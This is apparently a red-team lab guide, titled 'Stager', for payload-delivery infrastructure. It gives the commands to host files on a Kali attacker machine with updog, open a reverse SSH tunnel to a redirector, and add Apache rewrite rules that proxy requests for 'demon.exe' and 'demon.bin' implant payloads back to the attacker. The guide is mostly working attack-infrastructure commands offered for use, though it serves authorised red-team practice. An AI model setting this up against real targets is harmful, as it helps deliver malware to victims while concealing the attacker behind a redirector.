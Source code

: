 # Stager

1. Setup file hosting service on Attacker Linux.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ updog --ssl
[+] Serving /home/kali/Desktop...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on https://192.168.231.128:9090/ (Press CTRL+C to quit)
```

2. On Attacker Linux VM, setup a SSH tunnel for Payload Stager.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ssh -N -R 9090:localhost:9090 -i redirector redirector@192.168.231.129
```

3. Add the following lines under `RewriteEngine on` in `.htacccess` file.
```
RewriteCond %{REQUEST_URI} "demon.exe" [NC,OR]
RewriteCond %{REQUEST_URI} "demon.bin" [NC]
RewriteRule ^.*$ "https://localhost:9090%{REQUEST_URI}" [P]
```

4. Restart Apache service.
```
redirector@redirector:~$ sudo systemctl restart apache2
```
